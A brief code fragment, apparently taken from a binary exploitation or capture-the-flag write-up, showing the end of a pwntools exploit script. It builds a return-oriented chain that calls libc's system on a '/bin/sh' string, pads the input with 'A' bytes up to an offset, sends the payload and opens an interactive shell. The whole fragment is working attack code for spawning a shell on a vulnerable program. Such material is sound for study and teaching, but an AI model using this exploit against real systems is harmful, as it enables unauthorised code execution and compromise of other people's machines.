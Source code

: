 ```sh
rop.call(libc.sym.system, [binsh])
rop.call(libc.sym.exit)

payload = [
	b"A" * offset,
	rop.chain()

]

payload = b"".join(payload)				#send payload
p.sendline(payload)
p.recvline()

p.interactive()
```
